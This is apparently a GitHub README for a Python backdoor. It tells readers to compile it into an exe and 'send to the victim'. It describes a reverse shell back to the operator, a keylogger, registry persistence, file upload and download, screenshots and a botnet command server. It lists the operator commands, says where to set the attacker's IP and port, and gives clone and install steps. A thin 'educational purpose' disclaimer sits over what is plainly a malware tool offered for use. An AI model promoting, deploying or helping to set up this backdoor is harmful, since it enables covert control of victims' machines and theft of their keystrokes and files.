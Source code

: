 # !! This is Only For _**Educational Purpose Only**_.
* Use on any on if you have permission 
* I am not responsible for any dumb action you do.
***
## !! **Warning** this version doesn't support camera features it will be next version.
## A Backdoor based on python.
* Just create exe and send to the victim.
* In exe include keylogger also
* It is based on TCP and IPv4 connection.
* It will create a reverse shell connecion form victim system.
***
* It has command like persistence to boot itself when system restart , it also have keylogger, upload and download.
* It also have cnc or we call botnet.
***
### Use command like this.
```
            quit                                --> Quit Session With The Target
            clear                               --> Clear The Screen
            cd *Directory Name*                 --> Changes Directory On Target System
            upload *file name*                  --> Upload File To The target Machine
            download *file name*                --> Download File From Target Machine
            keylog_start                        --> Start The Keylogger
            keylog_dump                         --> Print Keystrokes That The Target Inputted
            keylog_stop                         --> Stop And Self Destruct Keylogger File
            persistence *RegName* *fileName*    --> Create Persistence In Registry'''),'green')
            screenshot                          --> To Take Screenshot of victim screen
```
***
* Put your ip and port at there place (sock.bind(('127.0.0.1', 4444))) like this at line 84 in server for backdoor at line 62 and in cnc at line 103.
***
```
git clone https://github.com/Malwareman007/malwareman_backdoor.git
cd malwareman_backdoor/setup
python3 -m pip install --no-cache-dir -r requirements.txt
```
***
